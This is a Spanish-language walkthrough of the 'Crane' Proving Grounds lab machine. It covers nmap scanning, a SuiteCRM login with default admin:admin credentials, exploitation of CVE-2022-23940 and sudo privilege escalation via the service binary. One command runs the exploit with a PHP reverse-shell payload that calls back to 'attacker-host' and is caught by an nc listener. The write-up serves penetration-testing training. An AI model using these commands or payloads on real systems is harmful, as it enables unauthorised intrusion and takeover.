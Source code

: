 ```yaml
---
weigth: 1
title: "Crane"
date: 2024-05-02T11:24:09+02:00
draft: false
author: Antu
publishDate: 2024-05-01
tags: ["Walkthrough", "PG", "TjNull", "OSCP", "Easy", "Intermediate"]
categories: ["Proving Grounds"]
images: []
resources: 
- name: "featured-image"
  src: "preimagen.jpeg"

lightgallery: true

toc:
  auto: false
---
```

## Descripción

Dificultad: intermedia (valorada como easy)

En esta maquina de Proving Grounds Practice, veremos la explotación del software SuiteCRM a través de un exploit publico y una escalada de privilegios aprovechándonos de permisos sobre un binario que es posible ejecutar con sudo.

## Escaneo y Análisis de Vulnerabilidades

Iniciamos realizando un escaneo con nmap sobre la maquina crane

```bash
nmap -p- --open -T4 -Pn -n -vvv -sS 192.168.250.146  -oG allPorts
```
![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled.png)

Exportamos los resultados en formato grepeable para poder copiar y pegar los puertos obtenidos en un nuevo escaneo a través de la función extracPorts.

Esta función es un extra que podéis añadir a vuestra zshrc para agilizar vuestros escaneos.

Una vez en vuestra zshrc debeis cerrar la terminal y abrir una nueva para que se completen los cambios.

```bash
# Funcion extracPorts
# Extract nmap information
function extractPorts(){
    ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
    ip_address="$(cat $1 | grep -oP '\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}' | sort -u | head -n 1)"
    echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address"  >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.tmp
    echo $ports | tr -d '\n' | xclip -sel clip
    echo -e "[*] Ports copied to clipboard\n"  >> extractPorts.tmp
    cat extractPorts.tmp; rm extractPorts.tmp
}
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%201.png)

Nos interesa el puerto 80 del cual obtendremos mas información en el siguiente escaneo.

```bash
nmap -p22,80,3306,33060 -sCV 192.168.250.146 -oN target
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%202.png)

Vemos que en el puerto 80 hay un servidor apache, por lo que pasamos a ver su contenido.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2031.png)

Nos encontramos ante un login, lo primero que se me ocurre es probar credenciales por defecto como admin:admin y… 

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%204.png)

Exito!

## Explotación

Tras obtener unas credenciales validas he pasado a buscar si existe algún exploit publico para la versión de este software y encontré el siguiente.

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%205.png)

Exploit:

[https://github.com/manuelz120/CVE-2022-23940](https://github.com/manuelz120/CVE-2022-23940)

Ejecutando la siguiente linea de comandos obtenemos la reverse shell

```bash
# Nos ponemos a la escucha
nc -nlvp 80

# Ejecutamos exploit
./exploit.py -u admin -p admin --payload "php -r '\$sock=fsockopen(\"attacker-host\", 80); exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
```

y voila!

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%206.png)

Tras realizar un tratamiento de la tty

```bash
# tratamiento de la tty
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 59 columns 236

```

La primera flag se encuentra en /var/www

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%207.png)

## Escalda de privilegios

si comprobamos los permisos sudo del usuario vemos que podemos ejecutar el binario service con sudo.

```bash
sudo -l
```

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%208.png)

En la siguiente web encontramos como podemos explotar este binario con sudo

[https://gtfobins.github.io/gtfobins/service/#sudo](https://gtfobins.github.io/gtfobins/service/#sudo)

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%209.png)

Ejecutamos y…

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2010.png)

La flag se encuentra en /root

![Untitled](Crane%2075d81ecb6c5b4b01a5f6f7bce328950a/Untitled%2011.png)

Maquina Crane Pwned!
